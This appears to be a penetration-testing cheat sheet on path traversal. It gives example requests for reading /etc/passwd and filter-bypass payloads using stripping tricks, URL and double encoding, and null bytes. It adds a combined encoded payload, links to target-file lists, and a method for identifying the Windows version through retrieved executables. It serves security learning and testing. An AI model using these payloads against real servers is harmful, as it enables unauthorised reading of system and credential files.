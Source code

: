 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

---

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

> **Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.

---

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

---

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

> **Tip**: On Windows, you can also try using a different drive letter than *C:*.

---

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
   - `C:/Windows/explorer.exe`
   - `C:/Windows/notepad.exe`
   - `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:

    ```bash
    exiftool explorer.exe

    [...]
    OS Version                      : 10.0
    Image Version                   : 10.0
    Subsystem Version               : 10.0
    Subsystem                       : Windows GUI
    File Version Number             : 10.0.14393.7513
    Product Version Number          : 10.0.14393.7513
    File Flags Mask                 : 0x003f
    File Flags                      : (none)
    File OS                         : Windows NT 32-bit
    Object File Type                : Executable application
    File Subtype                    : 0
    Language Code                   : English (U.S.)
    Character Set                   : Unicode
    Company Name                    : Microsoft Corporation
    File Description                : Windows Explorer
    File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
    Internal Name                   : explorer
    Legal Copyright                 : © Microsoft Corporation. All rights reserved.
    Original File Name              : EXPLORER.EXE
    Product Name                    : Microsoft® Windows® Operating System
    Product Version                 : 10.0.14393.7513
    [...]
    ```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

> **Tip**: Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.

---

## Automation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
